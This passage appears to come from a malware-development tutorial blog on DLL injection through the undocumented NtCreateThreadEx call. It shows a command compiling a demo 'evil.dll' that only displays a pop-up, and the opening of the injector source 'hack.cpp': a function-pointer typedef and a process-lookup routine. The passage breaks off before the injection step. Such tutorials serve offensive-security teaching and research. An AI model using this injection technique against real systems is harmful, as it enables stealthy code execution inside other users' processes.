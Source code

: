 As usually, it's pretty simple. Just pop-up "Meow-meow!". 

Let's go to compile our DLL:
```bash
x86_64-w64-mingw32-gcc -shared -o evil.dll evil.c
```

![dll injection 2](/assets/images/29/2021-12-07_09-48.png){:class="img-responsive"}    

Then, let's take a look to the source code of our malware (`hack.cpp`):
```cpp
/*
hack.cpp
DLL injection via undocumented NtCreateThreadEx example
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2021/12/06/malware-injection-9.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
#include <tlhelp32.h>
#include <vector>

#pragma comment(lib, "advapi32.lib") 

typedef NTSTATUS(NTAPI* pNtCreateThreadEx) (
  OUT PHANDLE hThread,
  IN ACCESS_MASK DesiredAccess,
  IN PVOID ObjectAttributes,
  IN HANDLE ProcessHandle,
  IN PVOID lpStartAddress,
  IN PVOID lpParameter,
  IN ULONG Flags,
  IN SIZE_T StackZeroBits,
  IN SIZE_T SizeOfStackCommit,
  IN SIZE_T SizeOfStackReserve,
  OUT PVOID lpBytesBuffer
);

// get process PID
int findMyProc(const char *procname) {

  HANDLE hSnapshot;
  PROCESSENTRY32 pe;
  int pid = 0;
  BOOL hResult;

  // snapshot of all processes in the system
  hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
  if (INVALID_HANDLE_VALUE == hSnapshot) return 0;

  // initializing size: needed for using Process32First
  pe.dwSize = sizeof(PROCESSENTRY32);

  // info about first process encountered in a system snapshot
  hResult = Process32First(hSnapshot, &pe);

  // retrieve information about the processes
  // and exit if unsuccessful
  while (hResult) {
    // if we find the process: return process ID
    if (strcmp(procname, pe.szExeFile) == 0) {
      pid = pe.th32ProcessID;
      break;
```